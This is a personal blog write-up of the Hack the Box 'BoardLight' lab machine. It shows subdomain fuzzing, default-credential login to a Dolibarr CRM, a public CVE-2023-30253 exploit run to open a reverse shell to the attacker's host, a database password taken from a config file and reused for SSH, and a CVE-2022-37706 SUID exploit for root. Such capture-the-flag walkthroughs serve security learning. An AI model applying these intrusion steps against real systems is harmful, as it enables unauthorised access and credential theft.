 ```yaml
---
draft: false
title: "Hack the Box #4 - BoardLight without Metasploit"
date: 2024-08-08
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
  - Linux
cover:
  image: hack_the_box_4_boardlight.png
  alt: hack_the_box_4_boardlight.png
---
```

This evening I felt like cutting my teeth a little bit more. So lets spin up this box and give it a poke.

---
## Enumeration 

Kicking off this baby with an nmap
![https://i.imgur.com/EOD1dhH.png](https://i.imgur.com/EOD1dhH.png#center)

In doing so we find port 22 and 80 are the only ones open. _I did a full port scan after to the avail of no extra dice_

Browsing the website we don't find much. All links are get requests to the server so nothing there. We do get the website URL however _**Board.htb**_ that we can add to our hosts file.

So lets see what they aren't showing us with a little bit of directory brute forcing with gobuster…

![https://i.imgur.com/TyAgDp1.png](https://i.imgur.com/TyAgDp1.png#center)

Nothing of to much interest. How about subdomains? FUFF!!!! Weirdly when I started out, FUFF would give me all or nothing.

```bash
# All the errors
ffuf -w /usr/.....top100000.txt -u <http://FUZZ.permx.htb> -mc 200 -o ffuf.scan

# Or All the 200s 
ffuf -w /usr/.....top100000.txt -u http://IP_ADDRESS -H "Host: FUZZ.DOMAIN_URL" -mc 200 -o ffuf.scan
```

This had me stumped for longer then I would care to admit… until I discovered a glorious FUFF feature that I’m kicking myself for not knowing `-ac` Auto calibration. Oh where have you been all my life! Once we apply that flag a subdomain pops out in a matter of seconds `crm.board.htb`

![https://i.imgur.com/qE876A5.png](https://i.imgur.com/qE876A5.png#center)

Now we are cooking, with a sus login portal. Looking into the known exploits for this software, we find this git repo [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) but this requires authentication… Default creds for this tool are **admin/admin** but that wont work right… right?!

---
### Exploitation 

Well the creds work, though the permissions seem to be removed, but no matter.
```bash
└─$ python3 exploit.py <http://crm.board.htb> admin admin 10.10.14.62 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

And with that we have a cheeky reverse shell. Looking at the home file we find the user ***larissa***. But lets keep digging in what this dolibarr is… after some googling we find this little nugget of info about the [Configuration file](https://wiki.dolibarr.org/index.php?title=Configuration_file) and can be found at **conf/conf.php**. Whacking this badboy with a grep for db
```bash
<crm.board.htb/htdocs/conf$ cat conf.php | grep "db"  
...
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
...
```
We got a password… Would this work against the user?

```bash
└─$ ssh larissa@10.10.11.11    
larissa@boardlight:~$ cat user.txt
============ USER_FLAG ============
```

oh baby!

---
### Privilege Escalation

Now to start the enumeration of the box. Lets push **linpeas** onto this badboy and run that. In do so Linpeas finds some interesting files with permissions

```bash
...
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                   
                      ╚════════════════════════════════════╝                                                                                         
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid>                                                                     
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                            
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)                                
...
```

and one cursory google search away and we find this cheeky [PrivEsc](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh), pushing it onto the box

```bash
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can\'t find in /etc/fstab.
# whoami
root
# cat /root/root.txt
============ ROOT_FLAG ============
```

With that we are done with both flags in the bag. Its time to treat myself with going outside and touching grass... Just one blade
![Grass.png](https://i.giphy.com/media/v1.Y2lkPTc5MGI3NjExdHZiaHY2ZjcwbXEycXp1dnp5cXV5aG5peWtnMWRtODhkaTd0dWQ0NyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/jVk5ebwWGahBS/giphy.gif#center)

Oh and the [rubber stamp](https://www.hackthebox.com/achievement/machine/1695260/603) from hack the box